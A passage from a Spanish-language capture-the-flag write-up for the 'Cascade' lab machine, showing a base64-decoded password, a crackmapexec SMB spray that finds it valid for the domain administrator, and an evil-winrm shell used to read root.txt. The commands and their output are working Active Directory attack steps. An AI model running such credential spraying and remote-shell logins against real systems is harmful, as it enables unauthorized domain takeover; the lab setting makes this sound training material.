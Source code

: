 Procedemos a decodear la password

```bash
$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d 

"baCT3r1aN00dles"
```

Probamos con Crackmapexec a hacer validar para que usuario perneceria esta password
```bash
# crackmapexec smb 10.10.10.182 -u users -p baCT3r1aN00dles                                                                             
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles "(Pwn3d!)"
```

Procedemos a conectarnos con Evil WinRM y sacar la Flag de Root.txt
```bash
# evil-winrm.rb -i 10.10.10.182 -u administrator -p baCT3r1aN00dles                                                 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/25/2022   8:53 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
XXXXXXXXXXb5ab6469c8baea4d5xxxxx
```

Maquina Cascade - AD Path - Rooteada =) Seguimos H4ck









